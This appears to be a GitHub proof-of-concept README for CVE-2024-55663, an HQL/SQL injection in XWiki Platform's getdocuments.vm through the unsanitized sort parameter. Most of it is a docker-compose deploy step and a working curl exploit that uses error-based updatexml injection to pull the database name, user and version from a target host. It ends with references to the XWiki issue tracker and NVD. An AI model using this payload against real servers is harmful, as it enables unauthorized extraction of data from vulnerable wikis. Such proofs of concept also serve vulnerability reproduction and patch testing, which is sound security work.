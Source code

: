 ##  CVE-2024-55663
## VULNERABILITY DETAILS
XWiki Platform has an SQL injection in getdocuments.vm with sort parameter

In getdocument.vm ; the ordering of the returned documents is defined from an unsanitized request parameter (request.sort) and can allow any user to inject HQL ; see https://github.com/xwiki/xwiki-platform/blob/029c324dc3eeac1401210b420460bdfb970346e7/xwiki-platform-core/xwiki-platform-web/src/main/webapp/templates/getdocuments.vm#L75

## VULNERABILITY
xwiki:11.10.8-mysql-tomcat (tested)

## Deploy:
```
docker-compose up
```

## Exploit:
``` 
curl --silent "http://<Host>/xwiki/bin/get/Documentation/WebHome?xpage=xpart&vm=getdocuments.vm&sort=1,updatexml(rand(),concat(CHAR(126),database(),char(124),user(),char(124),version(),CHAR(126)),null)" | grep -Eo "~(.*)~" 
```



https://github.com/user-attachments/assets/452120b2-4e93-484d-90e6-97d6606eba28




## References:
- https://jira.xwiki.org/browse/XWIKI-17568
- https://nvd.nist.gov/vuln/detail/CVE-2024-55663
